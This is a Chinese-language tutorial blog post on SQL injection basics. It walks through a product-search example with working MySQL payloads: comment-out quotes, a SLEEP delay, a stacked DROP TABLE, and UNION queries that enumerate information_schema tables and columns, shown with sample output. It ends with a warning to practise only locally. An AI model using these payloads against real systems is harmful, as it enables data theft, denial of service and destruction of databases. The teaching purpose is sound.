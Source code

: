 ```yaml
---
title: SQL注入基本原理
subtitle: 知已知彼，百战不殆。
description: sql,sql injection,sql注入
date: 2019-11-24
layout: default
bg_url: "assets/images/code.jpg"
category: 技术
---
```


## SQL注入基本原理

WEB技术发展日新月异，但是徒手拼SQL的传统手艺还是受相当多的开发者亲睐。毕竟相比于再去学习一套复杂的[ORM](https://en.wikipedia.org/wiki/Object-relational_mapping)规则，手拼更说方便，直观。通常自己拼SQL的人，应该是有听说过**SQL注入**很危险，但是总是心想：我的SQL语句这么简单，不可能被注入的。

花5分钟看完这个完整的例子，从今往后应该再也不敢有以上侥幸心理了。

### 简单场景

有一个WEB界面提供输入商品名称，展示对应价格，生产日期及生产地信息。例如输入Hammer展示：

| 产品        | 价格  | 生产地   | 生产日期   |
| ----------- | ----- | -------- | ---------- |
| Claw Hammer | 12.98 | American | 2019.11.07 |
| Club Hammer | 29.98 | Canada   | 2019.11.11 |

我们跳过了搭建Web搜索界面的过程，直接关注重点部分: **SQL注入**。

如果要实现以上功能，那么我们大致可以猜到服务器使用的SQL语句如下：

```sql
SELECT ? FROM ? WHERE ? LIKE '%Hammer%';
```

其中`?`表示目前我们并不知道具体的表名和字段名，此SQL唯一可以被操纵的就是单引号里面的输入内容`'%Hammer%`。假如我们直接在查找框里输入一个单引号。即变成

```sql
select ? from ? where ? Like '%'%';    
```

这样拼接后造成SQL语法错误，得不到任何结果，我们需要使用`--`来把最后一个单引号注释掉。

```sql
select ? from ? where ? Like '%'; -- %';    
```

`--`后的是注释内容(你也可以用`#`），这样你可以得到所有的产品信息，目前为止，还是没有嗅到危险的信号。

| 产品         | 价格  | 生产地   | 生产日期   |
| :----------- | ----- | -------- | ---------- |
| Claw Hammer  | 12.98 | American | 2019.11.07 |
| Club Hammer  | 29.98 | Canada   | 2019.11.11 |
| Paring Knife | 10.98 | China    | 2019.11.11 |
| Boning Knife | 19.98 | China    | 2019.01.01 |

### 小试牛刀and

紧紧抓住上一步中可以扩展的单引号部分。来一个简单的延时语句试一试:

```sql
select ? from ? where ? Like '%Hammer' and 1 = SLEEP(2); --%';  
```

这时查询会2秒后才返回结果，如果把时间延长，用脚本多点几次查询，一下就能把数据库的连接池用完。

当然，还有破坏力更强的！

```sql
select ? from ? where ? Like '%Hammer'; drop table xxxx; --%'; 
```

可以直接把表/数据库直接删除掉，至于如何知道引数据库中有哪一些表(即如何确定上句SQL中的`xxxx`)呢？

### 为所欲为union

 我们需要知道此数据库有哪一些表！这样才能能拿到有用的信息。

使用`union`可以把不同表的内容拼在一起，小试一下：

```sql
select ?,?,?,? from ? where ? Like '%hammer' UNION (select 1,2,3,4 from dual); -- %';  
```

| 产品        | 价格  | 生产地   | 生产日期   |
| :---------- | ----- | -------- | ---------- |
| Claw Hammer | 12.98 | American | 2019.11.07 |
| Club Hammer | 29.98 | Canada   | 2019.11.11 |
| 1           | 2     | 3        | 4          |

可以看到我们把假数据`1，2，3，4`成功地拼接到搜索结果中。

Mysql系统自带的信息都存在`information_schema`数据库中。我们试着在里面找找有用的信息。

```sql
select ? from ? where ? Like '%hammer' UNION (select TABLE_NAME,TABLE_SCHEMA,3,4 from information_schema.tables); --%';  
```

| 产品        | 价格    | 生产地   | 生产日期   |
| :---------- | ------- | -------- | ---------- |
| Claw Hammer | 12.98   | American | 2019.11.07 |
| Club Hammer | 29.98   | Canada   | 2019.11.11 |
| authors     | hawkeye | 3        | 4          |
| products    | hawkeye | 3        | 4          |
| user        | hawkeye | 3        | 4          |
| ....        | ....    | 3        | 4          |

现在知道了这些数据库名和表名，所有人都对它为所欲为了！(**包括上面执行的DROP**)。

看着列表一猜就能知道我们目前查的是products表，接下来我们再把products具体的字段也挖出来。

```sql
select ? from ? where ? Like '%hammer' UNION (select COLUMN_NAME,TABLE_SCHEMA,3,4 from imformation_schema.columns where table_name = 'products'); --%';  
```

| 产品        | 价格    | 生产地   | 生产日期   |
| :---------- | ------- | -------- | ---------- |
| Claw Hammer | 12.98   | American | 2019.11.07 |
| Club Hammer | 29.98   | Canada   | 2019.11.11 |
| id          | hawkeye | 3        | 4          |
| name        | hawkeye | 3        | 4          |
| price       | hawkeye | 3        | 4          |
| address     | hawkeye | 3        | 4          |
| updated_at  | hawkeye | 3        | 4          |

所以，通过上面2步，我们知道了表名和字段名，那么查询API的完整SQL应该是(把上面的`?`都补全啦)：

```sql
select name,price,address,updated_at from products where name like '%hammer';
```

通过不断重复以上几个步骤，你就可以通过这一个小小的入口把数据库的所有信息(比如上面发现的`user`表🤤)都翻个遍。



注意：以上都是在自己的机器上尝试的，千万不要越界去hack别人家的服务器！

如果你SQL注入想要更深入/系统的学习，可以使用当然你可以自己本地搭建[DVWA](https://github.com/ethicalhack3r/DVWA)，或挑战[HackMe-SQL-Injection-Challenges](https://github.com/breakthenet/HackMe-SQL-Injection-Challenges)。












